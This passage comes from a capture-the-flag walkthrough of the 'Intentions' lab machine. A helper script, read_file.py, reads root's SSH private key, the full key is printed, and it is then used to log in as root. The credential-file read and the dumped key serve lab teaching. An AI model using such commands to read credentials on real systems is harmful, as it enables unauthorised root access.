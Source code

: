 With that I can read the root flag, but also root’s private SSH key:

```

greg@intentions:~$ python3 read_file.py /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

```

### SSH

With that SSH key, I can SSH into the box as root:

```

oxdf@hacky$ ssh -i ~/keys/intentions-root root@10.10.11.220
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-76-generic x86_64)
...[snip]...
root@intentions:~# 

```
